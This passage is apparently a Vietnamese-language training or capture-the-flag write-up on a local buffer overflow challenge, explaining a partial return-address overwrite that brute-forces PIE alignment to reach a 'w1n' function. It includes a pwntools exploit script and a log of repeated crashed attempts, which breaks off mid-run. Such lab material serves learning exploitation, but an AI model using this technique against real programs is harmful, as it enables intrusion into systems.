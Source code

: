 Ví dụ **w1n** có offset là **0x12d4** thì địa chỉ của hàm **w1n** sau khi run binary (đã cộng pie_base) sẽ 0x??..??**?2d4**. Còn bit thứ 4 của offset sẽ được cộng vào.EX:

addr sau khi run binary

```shell
0x00005555555551e9  vuln
0x0000555555555249  main
0x00005555555552d4  w1n

```

pie_base lúc này sẽ là ***0x0000555555554000*** nên là ta có thể bruteforce với việc thay vì gửi cả addr win func để overwrite return addr, thì giờ chỉ cần gửi 4 bits tức 2 bytes cuối thoi, tỷ lệ là 1/16 (**?2d4**).

Phần exploit mình sẽ chọn gửi luôn ***0x52d4*** gửi nào mà vừa khớp với pie_base có 4 bits cuối là **4**000 thì okela.

### exploit code

```python
from pwn import *

w1n_addr = 0x52d4
payload = b"a" * 40 + p16(w1n_addr)

while True:
    r = process(['./bof_noCanary', payload])
    r.send(b'ls;cat flag.txt')
    r.interactive()

```

### result

*Có 1 vấn đề là hmmm script này mình vẫn chưa biết cách để auto, chứ phím enter cũng sml với mình lắm =="*

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/bof_noCanary$ python3 exploit.py
[+] Starting local process './bof_noCanary': pid 6787
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process './bof_noCanary' stopped with exit code -11 (SIGSEGV) (pid 6787)
[*] Got EOF while sending in interactive
[+] Starting local process './bof_noCanary': pid 6790
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process './bof_noCanary' stopped with exit code -11 (SIGSEGV) (pid 6790)
[*] Got EOF while sending in interactive
[+] Starting local process './bof_noCanary': pid 6799
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process './bof_noCanary' stopped with exit code -11 (SIGSEGV) (pid 6799)
[*] Got EOF while sending in interactive
[+] Starting local process './bof_noCanary': pid 6802
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process './bof_noCanary' stopped with exit code -11 (SIGSEGV) (pid 6802)
[*] Got EOF while sending in interactive
[+] Starting local process './bof_noCanary': pid 6805
```